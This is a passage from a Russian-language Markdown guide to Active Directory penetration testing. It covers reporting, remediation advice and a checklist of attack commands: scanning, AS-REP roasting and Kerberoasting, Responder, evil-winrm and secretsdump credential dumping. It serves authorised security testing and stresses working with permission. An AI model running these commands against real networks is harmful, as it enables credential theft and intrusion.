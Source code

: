* Собери все артефакты: логи, скриншоты, экспорт BloodHound графа, список найденных уязвимых аккаунтов/политик.
* Подготовь отчёт, разделённый на: краткое резюме (для менеджмента), техническая часть (для админов), доказательства и PoC, рекомендации по исправлению.

### Рекомендации по исправлению (примерно)

* Включить MFA для администраторских аккаунтов.
* Отключить LLMNR/NetBIOS, внедрить защиту от NTLM relay (SMB signing), применить WHitelisting.
* Внедрить политики сложных паролей, мониторинг подозрительных логонов/успешных/ошибочных попыток, EDR.
* Убрать хранение паролей в GPP, обеспечить управление сервисными аккаунтами с минимальными правами.

## 11. Чеклист команд и шаблоны

(Краткий набор команд для быстрого старта — см. разделы выше для полной детализации.)

* Сканирование: `nmap -sS -p- --min-rate 1000 -T4 -oA nmap/all_tcp 10.0.0.0/24`
* SMB / AD overview: `crackmapexec smb 10.0.0.0/24 --shares --users --groups`
* AS-REP: `python3 GetNPUsers.py domain/ -dc-ip <dc> -format john`
* Kerberoast: `python3 GetUserSPNs.py -request -dc-ip <dc> domain/`
* Responder: `sudo responder -I eth0`
* WinRM: `evil-winrm -i <ip> -u user -p pass`
* secretsdump: `python3 secretsdump.py domain/user:pass@dc`

## 12. Полезные примечания и безопасность

* Всегда работай в контролируемой среде и документируй дату/время/команды.
* Не выполняй шумные операции в рабочей сети без разрешения (password spraying, responder, relay).
* Для демонстраций и PoC используй тестовую среду.

---

См. также: [Cheatsheet — быстрые команды](./Cheatsheet.md)
